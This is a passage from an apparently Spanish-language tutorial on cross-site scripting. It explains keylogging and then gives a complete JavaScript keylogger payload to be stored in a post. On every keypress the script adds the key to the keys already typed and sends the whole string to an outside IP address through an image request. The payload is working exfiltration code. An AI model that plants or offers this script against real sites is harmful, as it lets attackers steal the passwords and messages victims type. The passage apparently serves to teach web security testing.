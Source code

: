 ![img](/assets/img/xss/xssc_8.png)

![img](/assets/img/xss/xssc_9.png)

## ¿Qué es el Keylogging?

El keylogging o registrador de teclas es una técnica de captura de las teclas que un usuario presiona en su teclado sin su conocimiento. Se utiliza para monitorear y registrar todo lo que una persona escribe, desde mensajes en redes sociales hasta datos más sensibles, como correos electrónicos o contraseñas.

### Keylogging en XSS

Para este ejemplo crearemos una publicación, la cual contendra el siguiente codigo.

```javascript
// Declaración de una variable 'k' para almacenar las teclas presionadas.
var k = "";

// Asigna una función al evento 'onkeypress' del 
// documento (cuando se presiona una tecla en el teclado).
document.onkeypress = function(e) {
    // Verifica la compatibilidad de eventos y
    // asigna el evento a 'e' si está
    // disponible. (Para que funcione en todos los navegadores)
    e = e || window.event;

    // Concatena la tecla presionada al valor existente de 'k'.
    k += e.key;

    // Crea una nueva instancia de la imagen 'i'.
    var i = new Image();

    // Establece la fuente de la imagen ('src') para enviar
    // una solicitud a la dirección URL especificada y
    // agrega el valor de 'k' como parte de la URL.
    i.src = "http://192.168.6.5:8000/" + k;
};
```
